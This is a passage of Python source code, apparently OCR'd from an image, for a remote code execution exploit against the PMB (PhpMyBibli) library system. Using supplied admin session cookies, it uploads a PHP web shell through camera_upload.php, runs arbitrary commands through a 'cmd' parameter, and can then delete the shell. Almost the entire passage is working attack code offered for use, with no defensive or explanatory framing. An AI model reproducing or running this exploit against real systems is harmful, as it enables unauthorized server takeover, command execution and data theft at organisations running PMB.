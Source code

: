 ```python
    r = requests.post(url, headers=headers, cookies=cookies, data=data)
    if "{0}.phtml".format(filename) in r.text:
        return True
    
def execute_command(url, filename, command):
    r = requests.get("{0}/{1}.phtml?cmd={2}".format(url, filename, command))
    return r.text

def clean_webshell(url, cookies, headers, filename):
    data = {"upload_filename": "{0}.phtml".format(filename), "imgBase64": "data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAA=="}
    url = "{0}/camera_upload.php".format(url)
    r = requests.post(url, headers=headers, cookies=cookies, data=data)

def random_string(size=16, chars=string.ascii_lowercase + string.digits):
    return ''.join(random.choice(chars) for _ in range(size))

if __name__ == '__main__':
    parser = argparse.ArgumentParser(prog='', description='File Upload in camera_upload.php (RCE)', epilog='Text at the bottom of help')
    parser.add_argument('pmb_url', type=str, help='PMB\'s URL (e.g. http://127.0.0.1/pmb or http://127.0.0.1)')
    parser.add_argument('--sessid', type=str, help='PhpMyBibli-SESSID',required=False)
    parser.add_argument('--sessid_list', nargs='+', help='PhpMyBibli-SESSID',required=False)
    parser.add_argument('--command', type=str, help='Execute custom command',required=False)
    parser.add_argument("--clean_webshell", help="Clean webshell after command execution", action="store_true")
    args = parser.parse_args()

    if not args.sessid:
        if not args.sessid_list:
            exit()

    sessid_list = []

    url = "{0}/".format(args.pmb_url)
    headers = {"Connection": "close", "Content-Type": "application/x-www-form-urlencoded"}
    filename = random_string()
    command = args.command

    if args.sessid:
        sessid_list.append(args.sessid)
    elif args.sessid_list:
        sessid_list = args.sessid_list

    for sessid in args.sessid_list:
        status = False
        cookies = {"PhpMyBibli-LOGIN": "admin", "PhpMyBibli-SESSID": sessid}

        if upload_webshell(url, cookies, headers, filename):
            status = True
            if command:
                print(execute_command(url, filename, command))
            if args.clean_webshell:
                clean_webshell(url, cookies, headers, filename)
        if status:
            break
```
